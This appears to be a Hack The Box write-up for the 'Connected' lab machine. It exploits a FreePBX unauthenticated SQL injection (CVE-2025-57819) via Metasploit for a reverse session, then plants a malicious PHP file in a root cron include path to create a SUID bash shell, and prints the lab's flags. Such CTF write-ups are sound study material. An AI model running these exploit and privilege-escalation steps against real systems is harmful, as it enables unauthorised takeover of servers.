






# Hack The Box — Connected (Easy Linux)

**Platform:** Hack The Box — Season 11 (Live)
**Difficulty:** Easy
**OS:** Linux
**CVE:** CVE-2025-57819 (FreePBX Unauthenticated SQLi → RCE)
**Flags:** User ✅ | Root ✅
**Completion:** https://labs.hackthebox.com/achievement/machine/533012/906



---

## Overview

Connected is an Easy-rated Linux machine running a FreePBX VoIP administration interface. Initial access is gained by exploiting CVE-2025-57819 — a critical (CVSS 9.8) unauthenticated SQL injection vulnerability in the FreePBX Endpoint Manager module that chains into remote code execution. Privilege escalation abuses a root-owned cron job that dynamically loads an attacker-controlled PHP file, resulting in a SUID bash binary and a full root shell.

---

## Reconnaissance

### Metasploit Workspace Setup

A dedicated Metasploit workspace was created at the start to keep all scan data and sessions organised:

```bash
msf6 > workspace -a connected
msf6 > workspace connected
```

### Port Scan

A versioned Nmap scan was run through Metasploit's `db_nmap` to populate the database directly:

```bash
msf6 > db_nmap -sV -sC 10.129.245.100
```

Three open ports were identified:

```
10.129.245.100  22    tcp    ssh        open   OpenSSH 7.4 protocol 2.0
10.129.245.100  80    tcp    http       open   Apache httpd 2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
10.129.245.100  443   tcp    ssl/https  open   Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
```

The attack surface is SSH and a web application served over both HTTP and HTTPS.

---

## Enumeration

### Web Application — Port 80 / 443

Browsing to the web application revealed a **FreePBX** VoIP administration panel. The FreePBX version was disclosed in the footer:


```
FreePBX 16.0.40.7
```

A search for known vulnerabilities against this version returned **CVE-2025-57819** — a critical unauthenticated SQL injection flaw in the FreePBX Endpoint Manager (EPM) module affecting FreePBX 15 (≤15.0.66), 16 (≤16.0.89), and 17 (≤17.0.3), which chains into remote code execution. The vulnerability carries a CVSS v3.1 score of 9.8 and was added to CISA's Known Exploited Vulnerabilities (KEV) catalogue following active exploitation in the wild.

The root cause is unsanitised user input in the Endpoint Manager's AJAX handler. The `brand` parameter in the following endpoint is concatenated directly into a SQL query without parameterisation, enabling unauthenticated error-based and stacked-query SQL injection:

```
GET /admin/ajax.php?module=FreePBX\modules\endpoint\ajax&command=model&template=x&model=model&brand=<payload>
```

Using stacked queries, an attacker can write arbitrary commands into FreePBX's internal `cron_jobs` database table, which the application subsequently executes — completing the SQLi-to-RCE chain.

---

## Exploitation — CVE-2025-57819

Two exploitation paths were used: the public watchTowr PoC and a Metasploit module.

### Method 1 — Manual PoC (watchTowr)

The public PoC from watchTowr labs was used as a reference and manual exploitation path:

```
https://github.com/watchtowrlabs/watchTowr-vs-FreePBX-CVE-2025-57819
```

### Method 2 — Metasploit Module

A Metasploit module for this CVE was available. It was configured and executed as follows:

```bash
msf6 > use unix/http/freepbx_unauth_sqli_to_rce
msf6 exploit(...) > set RHOSTS 10.129.245.100
msf6 exploit(...) > set VHOST connected.htb
msf6 exploit(...) > set SSL true
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > exploit
```

A session was returned as the `asterisk` service user.


---

## User Flag

With a shell on the target, the user flag was found in the home directory:

```bash
cat /home/<user>/user.txt
```

```
e488e6f6818e7c0dcde5885045f82a63
```

---

## Privilege Escalation

### Cron Job Enumeration

With a foothold as `asterisk`, running cron job enumeration revealed an interesting root-owned scheduled task. The job periodically executes the following script:


```bash
cat /usr/sbin/sysadmin_ha
```

```php
#!/usr/bin/php -q
<?php

if(file_exists("/var/www/html/admin/modules/freepbx_ha/license.php")) {
    include_once("/var/www/html/admin/modules/freepbx_ha/license.php");
}

$i = "/var/www/html/admin/modules/freepbx_ha/functions.inc/incron.php";
if (file_exists($i)) {
    require_once($i);
    $incron = new incron;
    $incron->rootTrigger();
}
```

The script runs as root and dynamically includes `incron.php` from a path under the web root — if the file exists, it instantiates the `incron` class and calls `rootTrigger()`. Crucially, the `asterisk` user has write access to that directory, meaning the included file can be created and controlled by the current session.

### Writing the Malicious incron.php

The target directory was created and the malicious PHP file was dropped in place:

```bash
# Create the required directory structure
mkdir -p /var/www/html/admin/modules/freepbx_ha/functions.inc

# Drop the malicious incron.php
cat > /var/www/html/admin/modules/freepbx_ha/functions.inc/incron.php << 'EOF'
<?php
class incron {
    public function rootTrigger() {
        exec('cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash');
    }
}
EOF
```

When `sysadmin_ha` next fires as root, it will include this file, instantiate the `incron` class, and call `rootTrigger()` — which copies `/bin/bash` to `/tmp/rootbash` and sets the SUID bit on it.

### Triggering the Cron Job

The cron job was triggered manually by writing to the expected trigger path:

```bash
echo "trigger" > /usr/local/asterisk/ha_trigger
```

After a brief wait, the SUID bash binary was confirmed in `/tmp`:

```bash
ls -la /tmp/rootbash
# -rwsr-xr-x 1 root root ... /tmp/rootbash
```

### Spawning a Root Shell

```bash
/tmp/rootbash -p
id
# uid=1000(asterisk) gid=1000(asterisk) euid=0(root)
```

The `-p` flag preserves the effective UID set by the SUID bit, resulting in a root shell.

---

## Root Flag

```bash
cat /root/root.txt
```

```
ebeaf37b63470bbf3687e79884245d92
```

---

## Summary

| Phase | Technique | Detail |
|---|---|---|
| Reconnaissance | TCP Port Scan via `db_nmap` | SSH (22), HTTP (80), HTTPS (443) |
| Enumeration | Web Application Fingerprinting | FreePBX 16.0.40.7 identified in page footer |
| Vulnerability Research | CVE Lookup | CVE-2025-57819 — Unauthenticated SQLi → RCE (CVSS 9.8) |
| Exploitation | SQLi → RCE | Metasploit `freepbx_unauth_sqli_to_rce` + watchTowr PoC |
| Post-Exploitation | Shell as `asterisk` | User flag retrieved from home directory |
| Privilege Escalation | Cron Job + Writable Path Abuse | Root-owned script includes attacker-controlled PHP → SUID bash |

---

## Key Takeaways

- **CVE-2025-57819** is a textbook example of how unsanitised input in a management-plane application can lead to full system compromise. The `brand` parameter being concatenated raw into SQL is a failure of basic secure coding practice — parameterised queries would have prevented this entirely.
- **Root-owned scripts that include files from writable paths** are a consistently reliable privilege escalation primitive. In this case, `sysadmin_ha` running as root with a `require_once` pointed at an `asterisk`-writable directory is effectively a backdoor. Any file-inclusion path reachable by a lower-privileged user and executed by root is a potential escalation vector.
- **FreePBX instances exposed directly to the network** without IP-level ACLs on the admin interface are at significant risk from this class of vulnerability. The admin UI should never be reachable without a VPN or strict source IP filtering.
- **Stacked-query SQL injection into application cron tables** is a particularly dangerous primitive in management applications — it turns a database write into OS command execution without ever touching the filesystem directly.